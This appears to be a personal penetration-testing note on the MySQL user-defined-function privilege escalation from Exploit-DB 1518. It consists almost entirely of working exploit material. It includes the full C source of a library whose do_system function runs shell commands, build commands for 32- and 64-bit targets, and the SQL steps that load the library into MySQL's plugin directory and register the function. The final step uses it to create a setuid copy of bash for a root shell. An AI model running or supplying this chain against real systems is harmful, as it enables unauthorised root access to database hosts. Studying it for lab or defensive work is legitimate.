 ![[Pasted image 20211229223508.png | 1000]]

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash - kali
sudo apt update && sudo apt install default-libmysqlclient-dev
```

```bash - kali
mousepad raptor_udf2.c
```

**raptor_udf2.c**
```c - kali
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

Transfer the above c file to target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

IF TARGET IS 64 bit version of debian, we need add -fPIC to the gcc command:

```bash - kali
gcc -g -c raptor_udf2.c -fPIC
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---
IF TARGET IS 32 bit, remember to add -m32:
```bash - kali
gcc -g -c raptor_udf2.c -fPIC -m32
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc -m32
```
---
Transfer the files over the target.
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Should have 3 files, like so:

![[Pasted image 20220401110417.png]]

Now log in locally:
```bash - kali
mysql -h localhost -u root -p
```

```sql - target
show databases;
```

```sql - target
use $DATABASE;
```

The first step in this process is to discover where this installation of MySQL stores its UDFs. 

```sql - target
show variables like 'plugin_dir';
```

![[Pasted image 20220401110825.png]]

In this case, the directory is **/usr/lib/mysql/plugin/**. We'll use this directory name in the steps that follow.

We must also determine whether the database has been misconfigured to allow insecure handling of files.

```sql - target
SHOW VARIABLES LIKE "secure_file_priv";
```

![[Pasted image 20220401110942.png]]

At this point, all elements are in place to exploit this misconfiguration and obtain a root shell.

==Pay attention to the directories below, and where your files are:==

==/tmp/Tools/ vs /tmp/ vs /var/www/==

```sql - target
create table foo(line blob);
```

```sql - target
insert into foo values(load_file('/<PATH_TO_FILE>/raptor_udf2.so'));
```

```sql - target
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

![[Pasted image 20220406222607.png]]

if the /usr/lib/mysql/plugin directory give you error, try: 

```sql - target
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

```sql - target
create function do_system returns integer soname 'raptor_udf2.so';
```

```sql - target
select * from mysql.func;
```

| name | ret |  dl | type |
| ---| --- | --- | --- |  
| do_system | 2 |  raptor_udf2.so | function |

```sql - target
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```

![[Pasted image 20211229224131.png | 1000]]

```sql - target
exit
```

```bash - target
/tmp/rootbash -p
```

![[Pasted image 20211229224227.png | 1000]]

